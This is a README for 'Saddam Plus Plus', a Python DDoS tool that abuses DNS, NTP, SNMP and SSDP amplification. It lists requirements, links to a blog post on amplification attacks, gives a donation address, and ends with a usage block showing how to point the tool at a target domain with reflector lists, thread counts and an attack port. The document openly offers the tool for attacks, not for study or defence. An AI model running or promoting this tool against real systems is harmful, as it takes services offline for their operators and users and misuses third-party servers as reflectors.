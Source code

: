 # Saddam Plus Plus
DDoS Tool that supports:
  * DNS Amplification with "any" querys and txt dns query
  * NTP Amplification (Network Time Protocol)
  * SNMP Amplification (Simple Network Management Protocol)
  * SSDP Amplification (Simple Service Discovery Protocol)
 
 
![](http://2.bp.blogspot.com/-TkNwFJsznto/VOs3l0uSgDI/AAAAAAAAALQ/S5BNt8ULwpg/s1600/9.png)

Read more about DDoS Amplification Attacks [here](http://www.pythonforpentesting.com/2015/02/ddos-amplification-attacks.html)

Donation would be much appreciated: 1Gi5Rpz5RBEUpGknSwyRgqzk7b5bQ7Abp2 ~ the original developer
# Requirements
 * OS Supports raw sockets (For scanners and saddam++)
 * Python 2.7
 * [Pinject](https://github.com/OffensivePython/Pinject)
 * gcc or equivalent
 
# Usage
```
	   _____           __    __                   ____  __              ____  __              
	  / ___/____ _____/ /___/ /___ _____ ___     / __ \/ /_  _______   / __ \/ /_  _______    
	  \__ \/ __ `/ __  / __  / __ `/ __ `__ \   / /_/ / / / / / ___/  / /_/ / / / / / ___/    
	 ___/ / /_/ / /_/ / /_/ / /_/ / / / / / /  / ____/ / /_/ (__  )  / ____/ / /_/ (__  )     
	/____/\__,_/\__,_/\__,_/\__,_/_/ /_/ /_/  /_/   /_/\__,_/____/  /_/   /_/\__,_/____/      
	https://github.com/OffensivePython/Saddam ~ https://github.com/merkjinx/saddam-plus-plus
	https://twitter.com/OffensivePython

Usage: 
Saddam.py target.com [options]        # DDoS
Saddam.py benchmark [options]         # Calculate AMPLIFICATION factor


Options:
  -h, --help            show this help message and exit
  -d FILE:FILE|DOMAIN, --dns=FILE:FILE|DOMAIN
                        DNS Amplification File and Domains to Resolve (e.g:
                        dns.txt:[evildomain.com|domains_file.txt]
  -n FILE, --ntp=FILE   NTP Amplification file
  -s FILE, --snmp=FILE  SNMP Amplification file
  -p FILE, --ssdp=FILE  SSDP Amplification file
  -t N, --threads=N     Number of threads (default=1)
  -P port, --port=port  Attack port of target
```
